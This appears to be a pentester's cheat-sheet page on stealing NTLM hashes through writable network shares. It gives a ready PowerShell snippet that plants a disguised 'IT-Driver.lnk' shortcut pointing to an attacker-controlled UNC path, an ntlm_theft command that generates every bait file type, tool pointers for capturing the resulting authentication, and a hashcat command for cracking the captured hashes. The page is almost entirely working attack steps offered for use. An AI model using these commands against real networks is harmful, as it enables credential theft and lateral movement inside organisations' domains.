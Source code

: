 ```yaml
---
tags:
  - Initial-Access
  - Lateral-Movement
  - AD
---
```

Any writable directory (shares, nfs, locally) where users will list contents you can use certain file types to steal hashes

**Manual: (.lnk)**

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("\\DC01.domain.local\OpenShare\IT-Driver.lnk")
$lnk.TargetPath = "\\<AttackerIP>\@ico.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "IT Driver"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

**Automated (multi-type):**

[https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft)

Generate all file types:

```shell-session
python3 ntlm_theft.py -g all -s <attackerIP> -f '@myfile'
```



Monitor for traffic with [Responder](https://github.com/SpiderLabs/Responder) on linux or [Inveigh](https://github.com/Kevin-Robertson/Inveigh) on windows. 
Hash received? Try to crack it
``` bash
hashcat -m 5600 user.hash /usr/share/wordlists/rockyou.txt
```

OR:  [Relay Attacks](Relay%20Attacks.md)

